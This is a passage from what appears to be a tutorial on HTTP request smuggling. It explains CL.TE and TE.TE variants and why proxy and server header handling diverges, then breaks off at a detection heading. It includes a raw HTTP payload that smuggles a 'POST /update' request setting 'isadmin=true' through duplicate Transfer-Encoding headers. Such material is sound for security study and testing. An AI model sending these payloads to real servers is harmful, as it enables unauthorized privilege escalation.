 - Front-end consumes entire body as chunked until `0`.
    
- Back-end only reads 4 bytes (CL=4).
    
- Remainder (`POST /update`) treated as **smuggled request**.
    

---

### 3️⃣ TE.TE (Transfer-Encoding Obfuscation)

- **Both front-end & back-end use TE**.
    
- Exploits **malformed or duplicate TE headers**.
    

📌 **Payload**

```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```

💥 Result:

- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.
    
- Back-end interprets differently (or falls back to CL).
    
- Smuggled request (`POST /update`) is executed.
    

---

## 🧠 Why It Works

- **Spec Ambiguity:** HTTP/1.1 allows both `Content-Length` and `Transfer-Encoding`, but behavior isn’t consistent across implementations.
    
- **Proxy/Server Mismatch:** Different components prioritize headers differently.
    
- **Parsing errors:** Malformed headers can trigger unexpected fallback behaviors.
    

---

## 🕵️ Detection & Testing
